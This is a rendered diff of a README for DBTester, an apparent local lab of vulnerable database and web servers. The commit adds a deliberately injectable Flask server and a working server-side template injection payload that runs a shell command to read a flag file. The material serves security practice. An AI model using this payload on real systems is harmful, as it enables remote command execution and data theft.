

Before and after one commit to RyuichiHashimoto/DBTester, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 90% size. Rendered like a GitHub page; pictures changed too: assets/web-server-flask-top-page.png (added); blank space fills up the shorter version.

Commit message:
[add] implement web-server for checking ssti

```diff
--- a/README.md
+++ b/README.md
@@ -9,11 +9,14 @@ This repository includes environments for various databases and a login-enabled
 - [2. Repository Contents](#2-repository-contents)
   - [2.1. mysql](#21-mysql)
   - [2.2. mongo](#22-mongo)
-  - [2.3. web-server](#23-web-server)
+  - [2.3. web-server-php](#23-web-server-php)
   - [2.3.1. Accessing the Web Server](#231-accessing-the-web-server)
   - [2.3.2. Pages](#232-pages)
     - [2.3.3. Implemented Web APIs](#233-implemented-web-apis)
-  - [2.4. client](#24-client)
+  - [2.4. web-server-flask](#24-web-server-flask)
+  - [2.4.1 Accessing the Web Server](#241-accessing-the-web-server)
+  - [2.4.2 try to execute ssti attack](#242-try-to-execute-ssti-attack)
+  - [2.5. client](#25-client)
 - [3. How to Use](#3-how-to-use)
 - [4. Notes](#4-notes)
 - [Disclaimer](#disclaimer)
@@ -63,8 +62,21 @@ The pages can be found under the web-server/html directory.
      - queries the database to check if the provided username and password exist.
      - returns success if the combination exists; otherwise, returns a failure message.
 
+### 2.4. web-server-flask
+A simple website prepared for checking ssti attack
 
-### 2.4. client
+Built with python flask
+
+### 2.4.1 Accessing the Web Server
+Open a browser and navigate to http://localhost:5000.
+
+### 2.4.2 try to execute ssti attack
+input the following text and click the submit button.
+`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`
+
+![alt text](/assets/web-server-flask-top-page.png)
+
+### 2.5. client
 A container for testing hacking tools such as sqlmap.
 Includes tools (planned) for adding, deleting, and modifying records in MongoDB and MySQL databases, as well as displaying database contents.
 
```
Also changed, not shown: other parts of README.md (+2 -6 lines), assets/web-server-php-top-page.png (renamed from assets/web-server-top-page.png), 5 other files.
